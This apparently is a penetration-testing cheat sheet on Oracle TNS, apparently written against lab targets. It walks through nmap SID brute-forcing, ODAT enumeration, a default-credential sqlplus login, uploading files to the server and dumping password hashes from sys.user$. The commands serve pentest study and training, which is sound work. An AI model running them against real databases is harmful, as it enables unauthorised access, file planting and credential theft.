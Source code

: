 ```yaml
---

layout: post  
title: "Oracle TNS"  
date: 2024-12-22 
categories: Recon/Active

---
```


### Table of Contents

1. [Introduction to Oracle TNS](#introduction-to-oracle-tns)  
    1. [Overview](#overview)  
    2. [Default Configuration](#default-configuration)  
2. [Enumeration Techniques](#enumeration-techniques)  
    1. [Service Discovery with Nmap](#service-discovery-with-nmap)  
    2. [SID Enumeration](#sid-enumeration)  
3. [Advanced Techniques](#advanced-techniques)  
    1. [Using ODAT for Oracle Enumeration](#using-odat-for-oracle-enumeration)  
    2. [SQLplus Interaction](#sqlplus-interaction)  
4. [Exploitation Scenarios](#exploitation-scenarios)  
    1. [File Upload with ODAT](#file-upload-with-odat)  
    2. [Extracting Password Hashes](#extracting-password-hashes)  
5. [Combining Tools](#combining-tools)  
    1. [Nmap and ODAT](#nmap-and-odat)  
    2. [Automating Oracle Enumeration](#automating-oracle-enumeration)  
6. [Glossary](#glossary)

---

## Introduction to Oracle TNS

### Overview

Oracle Transparent Network Substrate (TNS) is a protocol that facilitates communication between Oracle databases and client applications over networks.

**Key Features**:

- **Purpose**: Enables database connection management, name resolution, and security features like encryption and authentication.
- **Uses**: Widely deployed in industries like healthcare, finance, and retail.

---

### Default Configuration

| **Default Values**        | **Description**                                  |
|----------------------------|------------------------------------------------|
| **Port**: 1521             | Default TNS listener port.                     |
| **Listener File**:         | `listener.ora` defines the listener behavior.  |
| **Service File**:          | `tnsnames.ora` resolves database service names.|

**Example Listener File (`listener.ora`)**:

```plaintext
LISTENER =
  (DESCRIPTION_LIST =
    (DESCRIPTION =
      (ADDRESS = (PROTOCOL = TCP)(HOST = orcl.htb)(PORT = 1521))
    )
  )
```

**Example Service File (`tnsnames.ora`)**:

```plaintext
ORCL =
  (DESCRIPTION =
    (ADDRESS_LIST =
      (ADDRESS = (PROTOCOL = TCP)(HOST = 10.129.11.102)(PORT = 1521))
    )
    (CONNECT_DATA =
      (SERVICE_NAME = orcl)
    )
  )
```

---

## Enumeration Techniques

### Service Discovery with Nmap

Scan for TNS services and detect versions.

**Command**:

```bash
nmap -p1521 -sV TARGET_IP
```

**Example Output**:

```
PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0
```

---

### SID Enumeration

Discover valid SIDs using Nmap or ODAT.

**Using Nmap**:

```bash
nmap -p1521 --script oracle-sid-brute TARGET_IP
```

**Example Output**:

```
| oracle-sid-brute:
|_ XE
```

---

## Advanced Techniques

### Using ODAT for Oracle Enumeration

ODAT (Oracle Database Attacking Tool) is an open-source Python-based tool for Oracle database enumeration.

**Install**:

```bash
git clone https://github.com/quentinhardy/odat.git
cd odat
pip3 install -r requirements.txt
```

**Run All Modules**:

```bash
python3 odat.py all -s TARGET_IP
```

---

### SQLplus Interaction

After obtaining credentials, use `sqlplus` to interact with the database.

**Login**:

```bash
sqlplus scott/tiger@TARGET_IP/XE
```

**Common Commands**:

- List all tables:

    ```sql
    SELECT table_name FROM all_tables;
    ```

- Show user privileges:

    ```sql
    SELECT * FROM user_role_privs;
    ```

---

## Exploitation Scenarios

### File Upload with ODAT

Use ODAT to upload files to the Oracle server.

**Example**:

```bash
python3 odat.py utlfile -s TARGET_IP -d XE -U scott -P tiger --putFile /local/path/to/file /remote/path/on/server
```

**Validate Upload**:

```bash
curl http://TARGET_IP/<uploaded_file>
```

---

### Extracting Password Hashes

Dump user hashes for offline cracking.

**SQL Command**:

```sql
SELECT name, password FROM sys.user$;
```

**Example Output**:

```
NAME    PASSWORD
SYS     FBA343E7D6C8BC9D
OUTLN   4A3BA55E08595C81
```

---

## Combining Tools

### Nmap and ODAT

**Discovery with Nmap**:

```bash
nmap -p1521 -sV TARGET_IP
```

**Enumeration with ODAT**:

```bash
python3 odat.py sidguesser -s TARGET_IP
```

---

### Automating Oracle Enumeration

Automate common tasks with scripts.

**Bash Script Example**:

```bash
#!/bin/bash
nmap -p1521 --script oracle-sid-brute $1
python3 odat.py all -s $1
```

---

## Glossary

| **Term**            | **Definition**                                                |
|----------------------|--------------------------------------------------------------|
| **TNS**             | Oracle Transparent Network Substrate protocol.               |
| **SID**             | System Identifier for Oracle database instances.             |
| **ODAT**            | Oracle Database Attacking Tool.                              |
| **Listener**        | Process that manages database connections.                   |
| **SQLplus**         | Command-line interface for Oracle database management.       |

---
